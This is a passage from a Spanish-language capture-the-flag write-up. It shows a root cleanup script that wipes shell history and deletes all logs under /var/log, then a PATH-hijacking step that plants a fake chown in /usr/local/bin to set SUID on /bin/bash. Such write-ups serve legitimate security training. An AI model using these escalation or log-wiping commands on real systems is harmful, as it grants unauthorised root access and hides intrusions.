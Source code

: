 Si nos vamos al `/opt` veremos un archivo llamado `check_VM` el cual parece bastante interesante, si lo leemos veremos lo siguiente.

```bash
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```

Vemos que esta utilizando el `chown` como ruta relativa, por lo que se podria hacer un `Path Hijacking`, si observamos el `PATH` que tenemos a nivel de sistema.

```shell
echo $PATH
```

Info:

```
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Veremos que tiene una vulnerabilidad y es que esta cogiendo antes los binarios que se depositen en el `/local/bin` que en el `/bin` por lo que nosotros podremos crear ahi el `chown` y establecer con permisos de `SUID` la `bash`, vamos a creer que este archivo lo esta ejecutando `root` por detras con un `crontab`, vamos a probar a crear el archivo.

```shell
nano /usr/local/bin/chown

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```
